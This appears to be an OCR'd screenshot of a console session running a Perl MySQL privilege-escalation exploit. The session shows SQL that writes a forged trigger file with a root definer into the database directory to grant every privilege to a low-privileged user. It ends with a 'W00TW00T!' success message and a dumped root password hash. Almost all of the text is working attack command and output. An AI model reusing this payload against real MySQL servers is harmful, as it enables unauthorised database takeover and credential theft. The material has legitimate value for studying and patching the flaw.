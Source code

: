C:\Users\kingcope\Desktop&gt;perl mysql_privilege_elevation.pl

select &amp;apos;TYPE=TRIGGERS&amp;apos; into outfile&amp;apos;/var/lib/mysql/lessdb3/rootme.TRG&amp;apos; LINES TER

MINATED BY &amp;apos;\ntriggers=\&amp;apos;CREATE DEFINER=`root`@`localhost` trigger atk after ins

ert on rootme for each row\\nbegin \\nUPDATE mysql.user SET Select_priv=\\\&amp;apos;Y\\\

&amp;apos;, Insert_priv=\\\&amp;apos;Y\\\&amp;apos;, Update_priv=\\\&amp;apos;Y\\\&amp;apos;, Delete_priv=\\\&amp;apos;Y\\\&amp;apos;, Create_p

riv=\\\&amp;apos;Y\\\&amp;apos;, Drop_priv=\\\&amp;apos;Y\\\&amp;apos;, Reload_priv=\\\&amp;apos;Y\\\&amp;apos;, Shutdown_priv=\\\&amp;apos;Y\\

\&amp;apos;, Process_priv=\\\&amp;apos;Y\\\&amp;apos;, File_priv=\\\&amp;apos;Y\\\&amp;apos;, Grant_priv=\\\&amp;apos;Y\\\&amp;apos;, Reference

s_priv=\\\&amp;apos;Y\\\&amp;apos;, Index_priv=\\\&amp;apos;Y\\\&amp;apos;, Alter_priv=\\\&amp;apos;Y\\\&amp;apos;, Show_db_priv=\\\&amp;apos;Y

\\\ &amp;apos;, Super_priv=\\\&amp;apos;Y\\\&amp;apos;, Create_tmp_table_priv=\\\&amp;apos;Y\\\&amp;apos;, Lock_tables_priv=\\

\&amp;apos;Y\\\&amp;apos;, Execute_priv=\\\&amp;apos;Y\\\&amp;apos;, Repl_slave_priv=\\\&amp;apos;Y\\\&amp;apos;, Repl_client_priv=\\\

&amp;apos;Y\\\&amp;apos;, Create_view_priv=\\\&amp;apos;Y\\\&amp;apos;, Show_view_priv=\\\&amp;apos;Y\\\&amp;apos;, Create_routine_pri

v=\\\&amp;apos;Y\\\&amp;apos;, Alter_routine_priv=\\\&amp;apos;Y\\\&amp;apos;, Create_user_priv=\\\&amp;apos;Y\\\&amp;apos;, ssl_type=

\\\&amp;apos;Y\\\ &amp;apos;, ssl_cipher=\\\&amp;apos;Y\\\&amp;apos;, x509_issuer=\\\&amp;apos;Y\\\&amp;apos;, x509_subject=\\\&amp;apos;Y\\\&amp;apos;,

max_questions=\\\&amp;apos;Y\\\&amp;apos;, max_updates=\\\&amp;apos;Y\\\&amp;apos;, max_connections=\\\&amp;apos;Y\\\&amp;apos; WHERE

User=\\\&amp;apos;less3\\\&amp;apos;;\\nend\&amp;apos;\nsql_modes=0\ndefiners=\&amp;apos;root@localhost\&amp;apos;\nclient_cs

_names=\&amp;apos;latin1\&amp;apos;\nconnection_cl_names=\&amp;apos;latin1_swedish_ci\&amp;apos;\ndb_cl_names=\&amp;apos;lati

n1_swedish_ci\&amp;apos;\n&amp;apos;;DBD::mysql::db do failed: Unknown table &amp;apos;rootme&amp;apos; at mysql_pri

vilege_elevation.pl line 44.

DBD::mysql::db do failed: Lost connection to MySQL server during query at mysql_

privilege_elevation.pl line 50.

DBD::mysql::db do failed: Lost connection to MySQL server during query at mysql_

privilege_elevation.pl line 59.

W00TW00T!

Found a row: id = root, name = *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
